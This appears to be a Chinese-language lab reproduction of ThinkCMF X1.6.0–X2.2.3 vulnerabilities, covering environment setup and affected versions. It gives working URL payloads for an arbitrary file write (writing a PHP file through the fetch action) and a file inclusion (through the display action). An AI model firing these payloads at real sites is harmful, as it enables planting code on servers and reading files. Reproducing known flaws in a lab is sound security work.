 # 0x00 软件介绍
基于ThinkPHP 3.2.3，让开发者更方便的一款开发框架

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：ThinkCMF X2.2.3

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

下载ThinkCMF X2.2.3，直接放到phpstudy的目录下，访问/ThinkCMFX/，根据提示操作即可

# 0x03 利用条件
无

# 0x04 影响版本
ThinkCMF X1.6.0  
ThinkCMF X2.1.0  
ThinkCMF X2.2.0  
ThinkCMF X2.2.1  
ThinkCMF X2.2.2  
ThinkCMF X2.2.3

# 0x05 漏洞复现
攻击环境：win10_1909_pro_x64_zh-chs（在英文的kali系统下访问会提示“just a demo for multi lang user! LANG IS en-us;”，改用中文的windows，成功访问）

任意文件写入漏洞复现：  
浏览器下访问  
```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```
访问test.php，可以看到phpinfo已经加载出来
![image](./0.png)

任意文件包含漏洞复现：  
浏览器访问  
```
?a=display&templateFile=README.md
```
可以看到成功包含了README.md
![image](./1.png)

# 0x06 踩坑记录
坑1：  
搭建环境时，第三步报错，提示“thinkcmf 安装报错 Driver.class.php 　LINE: 350”，执行“drop database thinkcmf”后，重新安装成功，原因未知

# 0x07 参考链接
无
